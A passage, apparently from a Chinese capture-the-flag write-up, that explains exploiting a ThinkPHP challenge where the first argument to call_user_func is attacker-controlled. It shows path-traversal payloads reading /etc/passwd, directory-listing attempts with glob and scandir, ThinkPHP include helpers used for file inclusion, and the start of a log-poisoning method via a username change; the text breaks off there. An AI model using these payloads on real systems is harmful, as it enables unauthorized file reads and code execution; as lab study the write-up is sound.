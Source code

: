```php
    [1]=>
    string(7) "details"
  }
}
```
也就是说
* 可以控制call_user_func的第一个参数，会经过disable function 校验
* 第二个参数
  * 可以是字符串，存在于数据库中
  * 可以是数组，并且会查询数据库中的id是否在数组中，并且会使用implode进行连接

原exp使用`#&;`等将后面的数据丢掉。本题没有echo。

深入研究一下，读文件成功了,但是列目录没有成功。

### 读文件
```php
// 不需要echo
readfile("222,/../../../../../../../../etc/passwd");

// 需要echo
echo file_get_contents("222,/../../../../../../../../etc/passwd");
```

### 列目录 
* 列目录的函数返回的是数组 在本题无效 因为后面会进到`str_replace`报错。
* 倒是测出`glob`的正则可以让脏字符无效
```php
print_r(scandir("/"));
print_r(glob("/[2,a-z0-9]*"));
//但是不能，报file not found
print_r(scandir("/2222/../"));
```

### 文件包含
`include`、`require`还有`eval`等属于语言结构（Language constructs），`call_user_func`没法调用。

可以用thinkphp里的一些方法来曲线救国
```php
function __include_file($file)
{
    return include $file;
}

function __require_file($file)
{
    return require $file;
}

```

有文件包含了，接下来需要服务端存在内容可控的文件。这里提供两种方法：
## 解法一：出题人提供的修改用户名方法
修改用户名会记录到log中，位置在`runtime/log/2023MM/DD`
Accept中会有`*/*`等字符串，使部分内容解析失败，因此需要开容器获得全新的log，否则会php解析报错
